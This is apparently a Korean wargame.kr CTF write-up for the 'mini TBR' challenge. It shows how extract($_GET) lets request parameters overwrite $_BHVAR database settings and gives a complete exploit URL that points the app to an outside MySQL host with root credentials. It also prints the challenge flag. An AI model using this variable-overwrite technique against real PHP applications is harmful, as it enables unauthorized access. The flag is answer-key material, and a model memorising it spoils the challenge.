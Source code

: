 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-01-45-24.png)


# **Write-Up**

소스 파일을 다운받을 수 있다.

![](images/2022-01-03-01-45-43.png)

mini_TBR\modules\_system\functions.php에서 get_layout함수에서 인자로 받은 2개의 값을 이용하여 쿼리를 한 후 결과 중 path컬럼의 값이 hacked이면 FLAG를 획득할 수 있다.

```php
... 생략 ...
 function get_layout($layout, $pos){
	$result = mysql_query("select path from _BH_layout where layout_name='$layout' and position='$pos'");
	$row = mysql_fetch_array($result);
	$allow_list = ["./book_store_skin/head.html", "./book_store_skin/foot.html", "./reverted/h.htm", "./reverted/f.htm"];

	if (isset($row['path'])){
		if ($row['path'] == "hacked") {
			include("../lib.php");
			die(auth_code("mini TBR"));
		}
... 생략 ...
```

get_layout의 인자는 mini_TBR\index.php에서 확인할 수 있는데, _skin이라는 변수와 head 혹은 foot이라는 문자열이 들어간다.

```php
db_conn();
$head = $_BHVAR['path_layout'].get_layout($_skin, 'head');
$foot = $_BHVAR['path_layout'].get_layout($_skin, 'foot');
```

_skin변수에 데이터를 집어 넣는 부분은 찾지 못하고, _skin변수의 데이터를 가지고 어떤 행위를 하는 로직밖에 없다.

```php
if (isset($_skin)){
	$_SESSION['skin'] = $_skin;
}else if(!isset($_SESSION['skin'])){
	$_SESSION['skin'] = 1;
}

$_skin = $_SESSION['skin'];
```

이때, 33line에서 ini_get 함수를 통해서 php.ini에 regiter_globals값이 Off이면 extract함수를 통해서 GET method로 전달되는 쿼리의 데이터를 변수로 처리할 수 있다.

> [PHP extract](https://www.php.net/manual/en/function.extract.php)

```php
if (!ini_get("register_globals")) extract($_GET);
```

즉, ?_skin=1로 접속하면 $_skin은 1이라는 데이터가 들어간다는 것이다. 그리고 functions.php의 get_layout함수에서는 select path from _BH_layout where layout_name='1' and position='head'로 쿼리를할 것이다.

그러면 바로 위에 있는 db_conn함수를 보자.

```php
 function db_conn(){
 	global $_BHVAR;
	mysql_connect($_BHVAR['db']['host'], $_BHVAR['db']['user'], $_BHVAR['db']['pass']);
	mysql_select_db($_BHVAR['db']['name']);
 }
```

GET mthod로 _BHVAR['db']['host'], _BHVAR['db']['user'], _BHVAR['db']['pass'], _BHVAR['db']['name']을 내가 원하는 DB 값으로 바꾸고, 해당 DB에 _BH_layout테이블에 path값을 hacked로 넣어놓으면 이 값을 읽어 갈 것이다.

![](images/2022-01-03-01-47-04.png)

하지만, GET으로 _BHVAR을 조작하면 funcions.php를 읽을 수 없을 것이다.

```php
include_once $_BHVAR['path_module']."_system/functions.php";
```

따라서 path_module,path_layout 등을 기존 코드처럼 데이터를 넣어서 접속하면 FLAG를 획득할 수 있다.

http://wargame.kr:8080/mini_TBR/?_skin=1&_BHVAR[path_module]=./modules/&_BHVAR[path_layout]=./layouts/&_BHVAR[db][host]=61.251.215.194&_BHVAR[db][user]=root&_BHVAR[db][pass]=root&_BHVAR[db][name]=mini_tbr

![](images/2022-01-03-01-47-15.png)

![](images/2022-01-03-01-47-21.png)


# **FLAG**

**c297fed2e7d70a005c7c8e1500cd7af23cc3123d**